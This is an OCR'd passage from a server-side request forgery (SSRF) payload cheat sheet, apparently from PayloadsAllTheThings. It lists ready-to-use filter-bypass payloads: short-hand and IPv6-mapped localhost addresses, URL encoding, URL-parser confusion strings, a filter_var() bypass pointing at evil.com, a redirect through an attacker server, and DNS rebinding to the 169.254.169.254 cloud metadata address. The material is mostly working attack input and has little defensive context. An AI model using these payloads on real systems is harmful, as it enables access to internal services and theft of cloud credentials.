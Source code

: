 http://[0:0:0:0:0:ffff:127.0.0.1]
Bypass using malformed urls
localhost:+11211aaa
localhost:00011211aaaa
Bypass using rare address
You can short-hand IP addresses by dropping the zeros

http://0/
http://127.1
http://127.0.1
Bypass using URL encoding
Single or double encode a specific URL to bypass blacklist

http://127.0.0.1/%61dmin
http://127.0.0.1/%2561dmin
Bypass using bash variables
(curl only)

curl -v "http://evil$google.com"
$google = ""
Bypass using tricks combination
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib2 : 1.1.1.1
requests + browsers : 2.2.2.2
urllib : 3.3.3.3
Bypass using enclosed alphanumerics
@EdOverflow

http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
Bypass filter_var() php function
0://evil.com:80;http://google.com:80/ 
Bypass against a weak parser
by Orange Tsai (Blackhat A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)

http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/SSRF_Parser.png?raw=true

Bypassing using a redirect
using a redirect

1. Create a page on a whitelisted host that redirects requests to the SSRF the target URL (e.g. 192.168.0.1)
2. Launch the SSRF pointing to  vulnerable.com/index.php?url=http://YOUR_SERVER_IP
vulnerable.com will fetch YOUR_SERVER_IP which will redirect to 192.168.0.1
Bypassing using type=url
Change "type=file" to "type=url"
Paste URL in text field and hit enter
Using this vulnerability users can upload images from any image URL = trigger an SSRF
Bypassing using DNS Rebinding (TOCTOU)
Create a domain that change between two IPs. http://1u.ms/ exists for this purpose.
For example to rotate between 1.2.3.4 and 169.254-169.254, use the following domain:
make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Bypassing using jar protocol (java only)
Blind SSRF
